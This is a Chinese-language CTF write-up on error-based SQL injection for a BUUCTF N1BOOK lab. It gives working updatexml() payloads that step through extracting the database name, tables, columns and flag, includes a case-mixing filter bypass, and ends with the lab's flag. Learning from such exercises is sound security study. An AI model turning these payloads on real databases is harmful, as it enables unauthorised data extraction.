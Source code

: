 ```yaml
---
title: 报错注入
createTime: 2025/02/15 17:19:47
permalink: /ctf/648zmd7h/
---
```

> 例题：BUUCTF N1BOOK \[第一章 web入门\]SQL注入-2
>
> 这题不加 `tips=1` 不会返回报错信息，就是盲注，以后再学

- [ ] 布尔盲注

## 查数据库名

```txt
name=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

结果：

![1737913223190](image/2.报错注入/1737913223190.png)

## 查表名

```txt
name=1' and updatexml(1,concat(0x7e,(Select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(Select group_concat(table_name) from information_schema.tables where table_schema=database())),1)
```

> 此处的 `Select` 使用了大小写绕过

结果：

![1737911630972](image/2.报错注入/1737911630972.png)

## 查字段名

```txt
name=1' and updatexml(1,concat(0x7e,(sELECT group_concat(column_name) from information_schema.columns where table_name='fl4g')),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(sELECT group_concat(column_name) from information_schema.columns where table_name='fl4g')),1)
```

> 这里的 `fl4g` 是上一步查到的表名

结果：

![1737911820991](image/2.报错注入/1737911820991.png)

## 查字段内容

```txt
name=1' and updatexml(1,concat(0x7e,(sELECT flag from fl4g)),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(sELECT flag from fl4g)),1)
```

> 这里的 `fl4g` 和 `fllllag` 是上两步查到的表名和字段名

结果：

![1737911974690](image/2.报错注入/1737911974690.png)

## ***Cracked.***

```flag
n1book{login_sqli_is_nice}
```
